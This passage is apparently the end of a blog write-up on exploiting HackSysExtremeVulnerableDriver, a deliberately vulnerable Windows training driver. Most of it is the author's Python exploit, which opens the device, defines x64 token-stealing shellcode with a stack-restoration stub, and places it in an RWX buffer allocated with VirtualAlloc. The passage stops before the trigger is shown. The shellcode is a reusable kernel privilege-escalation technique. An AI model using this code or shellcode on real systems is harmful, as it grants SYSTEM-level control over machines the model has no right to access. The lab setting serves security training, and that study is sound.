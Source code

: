 I will leave it as an excercise for the reader to tease out the operations there. Please go read Abatchy's blog, it's a great resource. 

Running our final exploit code gives us our desired privesc. 

![](/assets/images/AWE/boom.PNG)

Our final exploit code is here:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

shellcode1 = (
"\x50\x51\x41\x53\x52\x48\x31\xC0\x65\x48\x8B\x80\x88\x01\x00\x00"
"\x48\x8B\x40\x70\x48\x89\xC1\x49\x89\xCB\x49\x83\xE3\x07\xBA\x04"
"\x00\x00\x00\x48\x8B\x80\x88\x01\x00\x00\x48\x2D\x88\x01\x00\x00"
"\x48\x39\x90\x80\x01\x00\x00\x75\xEA\x48\x8B\x90\x08\x02\x00\x00"
"\x48\x83\xE2\xF0\x4C\x09\xDA\x48\x89\x91\x08\x02\x00\x00\x5A\x41"
"\x5B\x59\x58"                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28 
"\x48\x89\xDF"                   # mov rdi,rbx
"\x48\x81\xEF\xD0\x00\x00\x00"   # sub rdi,0xd0
"\xc3"                           # ret
)

shellcode = shellcode1 + restoration_stub

addr = kernel32.VirtualAlloc(
    c_int64(0),
    c_int(len(shellcode)),
    c_int(0x3000),
    c_int(0x40)
)

if not addr:
    print("[!] Error allocating shellcode RWX buffer")
else:
    print("[*] Allocated RWX buffer for shellcode @ {}").format(str(hex(addr)))

memmove(addr,shellcode,len(shellcode))

addr = struct.pack("<Q", addr)
```